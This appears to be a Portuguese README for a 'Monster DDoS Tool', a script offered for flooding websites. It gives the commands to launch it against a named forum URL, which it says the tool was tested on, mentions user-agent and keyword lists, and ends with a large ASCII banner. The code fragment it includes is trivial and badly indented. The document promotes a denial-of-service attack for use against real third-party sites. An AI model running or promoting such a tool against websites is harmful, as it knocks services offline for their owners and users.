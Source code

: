 # Monster-DDoS-Tool
Monster DDoS Tool Denial of Service 2.0

**Comandos**

cd desktop
cd monster 
monster.py https://forum.xpzone.net

Site que foram testado o script monster.py

http://forum.xpzone.net

# lista useragent by Trote
# lista keyword by Trote
# lista robots_bots coded Trote 
Adicionei esse codigo no script
def robots_list():
	
  global robots_bots
	
  robots_bots.append('Allow: /<<<<< paginas do site')
return(robots_bots)

Accept-Language', 'pt-BR,pt;q=0.8
foi ativado o https no script

-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-	
  Monster DDoS Tool Denial of Service 2.0'
  Digite [URL] Exemplo: http://pmdb.org.br'
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-
"""                   ...
                 ;::::;
               ;::::; :;
             ;:::::'   :;
            ;:::::;     ;.
           ,:::::'       ;           OOO
           ::::::;       ;          OOOOO
           ;:::::;       ;         OOOOOOOO
          ,;::::::;     ;'         / OOOOOOO
        ;:::::::::`. ,,,;.        /  / DOOOOOO
      .';:::::::::::::::::;,     /  /     DOOOO
     ,::::::;::::::;;;;::::;,   /  /        DOOO
    ;`::::::`'::::::;;;::::: ,#/  /          DOOO
    :`:::::::`;::::::;;::: ;::#  /            DOOO
    ::`:::::::`;:::::::: ;::::# /              DOO
    `:`:::::::`;:::::: ;::::::#/               DOO
     :::`:::::::`;; ;:::::::::##                OO
     ::::`:::::::`;::::::::;:::#                OO
     `:::::`::::::::::::;'`:;::#                O
      `:::::`::::::::;' /  / `:#                 
       ::::::`:::::;'  /  /    
 __    :::__  :::::   /  /                __                       
/  \     /  |                            /  |                       
$$  \   /$$ | ______  _______   _______ _$$ |_    ______   ______   
$$$  \ /$$$ |/      \/       \ /       / $$   |  /      \ /      \  
$$$$  /$$$$ /$$$$$$  $$$$$$$  /$$$$$$$/$$$$$$/  /$$$$$$  /$$$$$$  | 
$$ $$ $$/$$ $$ |  $$ $$ |  $$ $$      \  $$ | __$$    $$ $$ |  $$/  
$$ |$$$/ $$ $$ \__$$ $$ |  $$ |$$$$$$  | $$ |/  $$$$$$$$/$$ | DDoS Tool     
$$ | $/  $$ $$    $$/$$ |  $$ /     $$/  $$  $$/$$       $$ | Denial of Service     
$$/      $$/ $$$$$$/ $$/   $$/$$$$$$$/    $$$$/  $$$$$$$/$$/  2.0
"""
